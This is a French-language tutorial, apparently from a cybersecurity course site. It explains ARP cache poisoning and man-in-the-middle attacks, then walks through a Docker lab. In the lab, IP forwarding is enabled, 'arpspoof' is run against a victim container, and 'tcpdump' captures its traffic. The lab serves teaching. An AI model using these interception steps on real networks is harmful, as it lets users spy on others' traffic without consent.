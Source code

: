 ```yaml
---
title: Comment fonctionne le ARP Cache Poisoning
description: Vous vous êtes surement déjà demandé comment les attaquants font pour intercepter des paquets sur le réseau, espionner les utilisateurs d'un Wi-Fi public, etc. La méthode de l'empoisonnement de cache ARP est une attaque basique qui permet de faire cela
categories: [offensive]
tags: [cybersécurité]
template: doc
next: true
prev: true
---
```


_Vous vous êtes surement déjà demandé comment les attaquants font pour intercepter des paquets sur le réseau, espionner les utilisateurs d'un Wi-Fi public, etc. La méthode de l'empoisonnement de cache ARP est une attaque basique qui permet de faire cela_


## Cours

### Comprendre le protocole ARP et les tables ARP

Pour comprendre l’attaque MITM (Man in the middle), il faut comprendre simplement le protocole ARP.

Tout ce que vous devez savoir c’est que chaque machine du réseau possède un cache ARP. Comme son nom l’indique, c’est un cache, il est donc temporaire. 
Le cache ARP consiste en une correspondance entre les adresses IP et les adresses MAC des machines du réseau. Ces correspondances sont rangées dans des tables ARP.

Exemple de table ARP : 

<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/cache_arp.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

Ci-dessus, deux commandes qui affichent les correspondances entre 2 ip du réseau et leur adresse MAC. On voit que l’adresse 10.5.0.1 a pour adresse MAC 02:42:8c:d5:51:03.

A ce stade, vous devriez avoir compris ce qu’est une table ARP. Cependant, vous avez lu juste avant qu’ARP était un protocole… En effet, pour remplir ces tables ARP, la machine va envoyer des requêtes aux autres machines sur le réseau. Les requêtes envoyées sont tout simplement comme le dialogue qui suit : 

> votre_machine : “qui a l’adresse 10.5.0.2 ?”
> machine_distante : “c’est moi, voici mon adresse MAC : 02:42:0a:05:00:02 !”
> 
Et ainsi la machine ajoute une ligne à sa table ARP.

Lorsqu’une machine distante veut envoyer une requête à une destination, elle s’assure d’avoir un couple IP-MAC correct.

### Comprendre le fonctionnement d’une attaque MITM (Man in The Middle)

Le but de cette attaque est de tromper la machine victime en se faisant passer pour quelqu’un d’autre. Il faut ainsi envoyer des informations à une machine pour qu’elle enregistre dans son cache ARP les mauvaises correspondances IP-MAC.

Si on veut observer toutes les communications entre une machine et un routeur, il faut se placer entre les deux machines (d’où l’appellation Man in the Middle). On dit à la victime “c’est moi le routeur”, ainsi elle enverra ses paquets à la machine attaquante, qui les transmettra ensuite au routeur. Lorsqu’une réponse arrive du routeur, l’attaquant dit au routeur “c’est moi qui suis la machine qui a envoyé cette requête”, l’attaquant intercepte donc la requête qu’il renvoie à la machine victime.

Ce schéma résume bien l’attaque : 

<Image src="https://beaglesecurity.com/blog/images/man-in-the-middle-attacks.webp" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

## Tutoriel

### MITM dans un environnement dédié

Il vous est possible de suivre et effectuer les mêmes étapes de ce tutoriel depuis votre machine en téléchargeant ce fichier : [docker-compose.yml](https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/docker-compose.yml)

### Lancement de l'environnement

Maintenant que vous avez téléchargé le fichier docker-compose.yml, vous pouvez récupérer et lancer les machines utiles pour ce tutoriel en tapant la commande : 

```shell
$ docker-compose up -d
```

Lorsque l'opération est finie, vous pouvez lister vos conteneurs avec la commande :

```shell
$ docker ps -a
```
Vous devriez voir une réponse similaire à celle ci-dessous : 

<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/conteneurs.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

Maintenant, ouvrons 2 Terminal séparés et connectons nous aux deux machines : 
Pour utiliser la machine attaquante, tapez la commande : 
```shell
$ docker exec -it attaquant /bin/bash
```

Pour utiliser la machine victime, tapez la commande : 
```shell
$ docker exec -it victime /bin/bash
```

Vous êtes maintenant connecté aux deux machines et vous devriez avoir deux terminaux ouverts : 

<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/terminal.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

### Vérification de la Configuration

Regardons les adresses ip de nos deux machines à l'aide de la commande : 
```shell
$ ifconfig
```

Vous obtenez normalement une réponse comme suit : 
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/ifconfig.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

On voit bien que la machine attaquante a pour adresse IP **10.5.0.2** et la machine victime **10.5.0.3**.

Vérifions maintenant la réponse ICMP de la machine victime. Sur la machine attaquante, utilisons la commande **ping** : 

```shell
$ ping 10.5.0.3
```
(Tapez Ctrl+C pour arrêter l'exécution de la commande)

Vous devriez voir cela : 
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/ping.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


Les paquets circulent bien, donc tout est bien configuré.

Il est aussi recommandé de taper la commande : 

```shell
$ ping 10.5.0.1
```

Pour vérifier que nous avons une réponse ICMP du routeur.

### Mise en place de l'attaque

Affichons tout d'abord la table arp de nos deux machines : 
```shell
$ arp -n
```
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/arp.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>

Afin que les requêtes puissent circuler entre la machine victime et le routeur, il faut que la machine attaquante puisse renvoyer les requêtes reçues.

Nous devons donc activer l'ip forwarding sur notre machine attaquante. Si nous manquons cette étape, soit il s’agit d'un choix de l’attaquant de bloquer toutes les requêtes de sa victime afin de lui bloquer toute connectivité, ou alors il s’agit d’une erreur d’inattention qui empêchera l’attaquant d’observer ce que la victime fait sur sa machine.

Voici comment activer l'ip forwarding : 

```shell
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```

Pour vérifier que cela est bien activé : 

```shell
$ cat /proc/sys/net/ipv4/ip_forward
```

Vous devez lire un **1** en réponse à cette commande.

### Lancement de l'attaque

Nous allons maintenant lancer l'attaque. Pour bien voir ce qu'il se passe, nous allons ouvrir un autre Terminal en se connectant une deuxième fois à la machine attaquante. (voir commande plus haut) 
A ce stade vous avez donc 3 applications Terminal ouvertes : 2 sur la machine attaquante 1 sur la machine victime.

Sur notre machine attaquante, nous allons lancer l'**arpspoof** qui consiste à faire croire à la victime que nous sommes le routeur et au routeur que nous sommes la victime (empoisonnement de cache arp): 

```shell
$ arpspoof -t 10.5.0.3 10.5.0.1
```

On peut observer les requêtes ARP envoyées lorsque cette commande est exécutée : 
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/poisoning.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


Maintenant que l'empoisonnement de la table ARP est lancé, il faut laisser les requêtes s'envoyer. Laissez le terminal de côté. Nous allons maintenant écouter et visualiser les requêtes qui passent par notre machine attaquante. Sur l'autre Terminal de la machine attaquante tapez : 

```shell
$ tcpdump -i eth0
```

Dès que la commande est exécutée, nous voyons circuler les requêtes ARP sur le réseau.

Que se passe-t-il si maintenant la machine victime ping les serveurs de github ? (adresse des serveurs github : **140.82.121.4**)

Sur la machine victime, tapez : 

```shell
$ ping 140.82.121.4 
```

**Observations depuis la machine attaquante :**
<Image src="https://raw.githubusercontent.com/tanguybron/cybersec-du-dimanche/refs/heads/main/source/MITM/images/ping_victime.png" alt="ARP" format="avif" quality={"high"} width="1000" height="1000"/>


Oui ! Effectivement ! On voit bien que l'attaque a fonctionné. Vous voyez sur la machine attaquante que la victime a envoyé une requête aux serveurs de github!